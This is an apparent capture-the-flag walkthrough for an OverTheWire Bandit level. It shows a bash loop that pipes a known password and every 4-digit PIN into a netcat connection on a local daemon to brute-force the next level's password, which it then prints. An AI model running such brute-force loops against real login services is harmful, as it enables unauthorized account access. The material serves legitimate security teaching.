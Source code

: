 ## Level Goal ##

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Solution ##

We know from the level goal that we are supposed to brute force the passcode to obtain the password. We can write a simple bash script to iterate through 0-9999 and feed each number into the netcat connection.

Example:
```
#!/bin/bash
for i in range {0..9999}                                         
do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i
done | nc localhost 30002 > /tmp/nc_out
```

When this script is done executing, we can retrive the password from '/tmp/nc_out' of uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG.
